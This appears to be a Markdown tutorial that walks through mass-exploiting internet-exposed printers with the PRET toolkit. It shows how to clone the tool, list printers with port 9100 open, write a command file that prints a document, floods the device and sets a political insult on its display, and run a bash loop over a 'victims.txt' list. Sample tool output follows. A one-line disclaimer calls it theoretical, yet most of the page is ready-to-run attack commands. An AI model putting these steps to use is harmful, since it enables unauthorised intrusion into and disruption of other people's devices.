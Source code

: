 **Step 1:** Download the **PRET**:

```
git clone git@github.com:RUB-NDS/PRET.git
cd PRET
```

**Step 2:** Prepare targets

Create a list of IPs for printers with open port 9100.

**Step 3:** Write automation:

U need to create a postScript document for printing. The easiest way is to save the document as PostScript.

Then, prepare a list of commands u want to execute and put them into file `c.txt`:

```
print print.ps
flood
display PUTIN HUYLO
quit
```

Write script for running and iterating targets:

```
#!/bin/bash
filename=$1
lines=`cat $filename`
for line in $lines; do
        echo "$line"
        python pret.py $line -i c.txt pjl 
        echo done for $line
done
```

**Step 4:** Run

```
bash run.sh victims.txt
```

> This is theoretical material and it was never used in practice. Based on [#pewdiepie](https://twitter.com/hashtag/pewdiepie) story:
> 
> *I was bored after playing Destiny 2 for a continuous 4 hours and decided I wanted to hack something. So I thought of any vulnerable protocols I could find on shodan*

An example output:

```
% python pret.py <target> pjl --debug
Please install the 'colorama' module for color support.
      ________________                                             
    _/_______________/|                                            
   /___________/___//||   PRET | Printer Exploitation Toolkit v0.40
  |===        |----| ||    by Jens Mueller <jens.a.mueller@rub.de> 
  |           |   ô| ||                                            
  |___________|   ô| ||                                            
  | ||/.´---.||    | ||      「 pentesting tool that made          
  |-||/_____\||-.  | |´         dumpster diving obsolete‥ 」       
  |_||=L==H==||_|__|/                                              
                                                                   
     (ASCII art by                                                 
     Jan Foerster)                                                 
                                                                   
Connection to <target> established
@PJL USTATUSOFF
Device:   @PJL INFO ID
@PJL INFO ID
```